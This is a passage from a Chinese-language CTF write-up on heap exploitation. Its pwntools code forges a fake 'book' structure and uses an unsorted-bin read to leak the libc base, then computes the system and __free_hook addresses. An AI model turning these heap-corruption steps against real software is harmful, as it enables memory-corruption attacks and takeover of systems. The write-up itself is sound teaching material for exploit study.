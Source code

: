    ```python
   p.sendlineafter(b':',b'a'*32)
   #description为0x110
   add(0x10,0x110,b"aaaa",b"bbbb")
   #description为0x10
   add(0x10,0x10,b"aaaa",b"bbbb")
   ```

   当申请较小的description时：

   ![image-20240715111058934](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407151110098.png)

   但是，当申请较大的description时，所以相比之下一改**选择较大的空间**来申请，后续才能伪造book结构体：

   ![image-20240715111244017](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407151112240.png)

   第一步：

   ```python
   p.sendlineafter(b':',b'a'*32)
   add(0x10,0x110,b"aaaa",b"bbbb")	#book1
   add(0x80,0x100,b"FFFFFFFF",b"FFFFFFFF")	#book2，进入unsortedbin用来泄漏main_arena地址
   free(2)
   show()
   #接受泄漏的堆地址
   p.recvuntil(b"a"*32)
   addr = u64(p.recv(6).ljust(8,b'\x00'))
   success("addr==>"+hex(addr))
   ```

2. 确定地址，在**0x55a65a3c1100** 处伪造book的结构体（在change(b"a"*32)之前伪造，之后以为booklist中的指针被覆盖，我们将**无法控制该book的description**）：

   ```python
   show_main_arena = addr+0x30
   any_addr_write = addr+0x1E0
   payload = b"FFFFFFFF"*12*2+p64(1)+p64(show_main_arena)+p64(any_addr_write)+p64(0xFFF)
   edit(1,payload)
   #修改booklist指针的最低为字节为b"\x00",指向伪造的结构体
   change(b"a"*32)
   ```

   解释选择这两个地址的原因：

   * show_main_arena = addr+0x30：为了在book2进入unsortedbin后读取其中的main_arena地址：

   ![image-20240715113008702](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407151130444.png)

   * **any_addr_write= addr+0x1E0**：为例实现任意地址写入数据，控制后来申请的book3的book结构体中的descripton地址。

   ![image-20240715113816156](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407151138500.png)

3. 泄漏main_arena中的地址：

   ```python
   #泄漏main_arena
   show()
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x58)
   success("libc_addr==>"+hex(libc_base))
   #计算__free_hook和system地址
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   ```